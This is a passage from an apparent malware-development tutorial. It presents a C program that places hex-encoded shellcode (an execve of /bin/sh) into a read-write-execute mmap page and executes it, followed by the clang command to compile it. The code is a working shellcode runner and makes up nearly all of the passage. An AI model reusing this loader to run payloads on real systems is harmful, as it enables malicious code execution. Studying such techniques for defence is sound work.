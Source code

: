 So, our C code looks like this (`hack2.c`):      

```cpp
/*
* hack2.c
* run Linux-style minimal 
* shellcode via mmap
* author: @cocomelonc
* https://cocomelonc.github.io/macos/2025/08/02/malware-mac-7.html
*/
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

unsigned char code[] =
  /* 0000 */ "\x31\xf6"                                 /* xor     esi, esi                */
  /* 0002 */ "\xf7\xe6"                                 /* mul     esi                     */
  /* 0004 */ "\x0f\xba\xe8\x19"                         /* bts     eax, 0x19               */
  /* 0008 */ "\xb0\x3b"                                 /* mov     al, 0x3b                */
  /* 000A */ "\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68" /* movabs  rbx, 0x68732f2f6e69622f */
  /* 0014 */ "\x52"                                     /* push    rdx                     */
  /* 0015 */ "\x53"                                     /* push    rbx                     */
  /* 0016 */ "\x54"                                     /* push    rsp                     */
  /* 0017 */ "\x5f"                                     /* pop     rdi                     */
  /* 0018 */ "\x0f\x05";                                /* syscall                         */

int main() {
  size_t pagesize = sysconf(_SC_PAGESIZE);

  void *exec = mmap(0, pagesize, PROT_READ | PROT_WRITE | PROT_EXEC,
                    MAP_PRIVATE | MAP_ANON, -1, 0);

  if (exec == MAP_FAILED) {
    perror("mmap");
    return 1;
  }

  memcpy(exec, code, sizeof(code));
  ((void(*)())exec)();

  return 0;
}
```

### demo 2

Compile it:    

```bash
clang -o hack2 hack2.c
```
